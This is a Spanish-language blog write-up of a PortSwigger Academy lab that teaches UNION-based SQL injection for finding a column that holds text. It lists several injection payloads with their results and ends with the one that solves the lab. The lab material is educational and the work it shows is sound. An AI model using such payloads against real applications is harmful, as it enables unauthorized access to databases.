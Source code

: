 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 4"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, finding a column containing text"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, finding a column containing text

En este <cite>laboratorio[^1]</cite>la finalidad es saber el tipo de datos que es utilizado en los valores que son enviadas en la consulta, ya que es necesario saber que tipo de valor son para que el sistema no genere errores al momento de extraeros, utilizaremos la informacion anterior primero enumerando el numero de columnas, y al hacer el reconocimiento sabemos que cuenta con 3 columnas ya que es la unica que no genera un error.

```sql
Pets' UNION SELECT NULL,NULL,NULL--
```

## Reconocimiento

Ingresamos a la web y al acceder en mi caso me pide que imprima el valor `mO7mSy` al recuperar los datos, asi que buscaremos que valores aceptan string para poder imprimirlo

### Payloads

   Payload | Resultado
--------|------
  Pets' UNION SELECT 'test',NULL,NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,'test',NULL-- | Imprime resultados normalmente
  Pets' UNION SELECT NULL,NULL,'test'-- | **Muestra error**

Nos podemos dar cuenta que la columna dos permite que se puedan ingresar datos de tipo string ahora toca ingresar la cadena que nos indican para poder resolver el lab, inyectando la consulta sql:

```sql
Pets' UNION SELECT NULL,'mO7mSy',NULL--
```

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)